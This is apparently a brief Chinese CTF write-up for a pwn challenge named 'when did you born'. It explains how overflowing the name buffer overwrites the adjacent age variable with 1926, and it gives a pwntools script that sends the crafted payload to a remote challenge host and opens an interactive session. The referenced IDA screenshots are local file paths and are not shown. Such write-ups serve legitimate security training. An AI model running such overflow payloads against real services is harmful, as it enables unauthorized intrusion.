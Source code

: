 ## when did you born？🐸

`0x786`=`1926`

ida的猜测源码，和反汇编代码如下

![whenborn2](C:\Users\liu\Desktop\Notes\images\whenborn2.png)

![whenborn](C:\Users\liu\Desktop\Notes\images\whenborn.png)

通过分析反汇编代码，可知上图所指的变量分别是v4，v5变量。v5是年龄，v4是名字。

所以通过输入名字溢出覆盖年龄就可以了。

```python
from pwn import *

context.log_level = "DEBUG"

# p = process("./whenborn")
p = remote("111.198.29.45", 36729)
p.recvuntil("What's Your Birth?\n")
p.sendline("1792")
p.recvuntil("What's Your Name?\n")
p.sendline("a"*8 + "\x86\x07\x00\x00")
p.interactive()
```

8个a  +  4个字节的1926

